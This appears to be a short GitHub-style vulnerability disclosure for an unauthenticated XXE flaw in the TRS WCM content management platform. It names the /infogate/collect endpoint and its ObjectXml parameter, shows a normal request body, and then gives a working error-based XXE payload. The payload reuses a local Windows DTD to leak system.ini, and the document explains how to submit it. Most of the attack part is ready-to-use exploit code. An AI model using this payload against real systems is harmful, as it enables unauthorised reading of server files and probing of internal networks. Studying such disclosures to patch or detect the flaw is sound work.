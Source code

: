# TRS WCM XXE
## Description
WCM is a content management platform for government, media and enterprise users.
An XXE issue was discovered in WCM, which can be used to read any file in the system or scan the internal network without authentication. When submitting a post request to `/infogate/collect`, the *ObjectXml* parameter is in XML format, and the server doesn't properly verify the validity when processing XML data.

## POC
The normal request is as follows

![](img/wcmxxe0.png)

*ObjectXml* parameter content looks like this
```
<my:myFields xmlns:my="http://schemas.microsoft.com/office/infopath/">
<my:group1>
<my:您的姓名><![CDATA[123123123123123]]></my:您的姓名>
<my:联系电话><![CDATA[123123]]></my:联系电话>
<my:邮箱><![CDATA[123123]]></my:邮箱>
<my:联系地址><![CDATA[123]]></my:联系地址>
<my:主题><![CDATA[123123]]></my:主题>
<my:内容><![CDATA[123123]]></my:内容>
</my:group1>
</my:myFields>
```

POC:
```
  <!DOCTYPE message [
      <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
          '>
      %local_dtd;
  ]>
  <message>any text</message>
```

Put the POC code before the content of the ObjectXml parameter and submit the request
![](img/wcmxxe1.png)
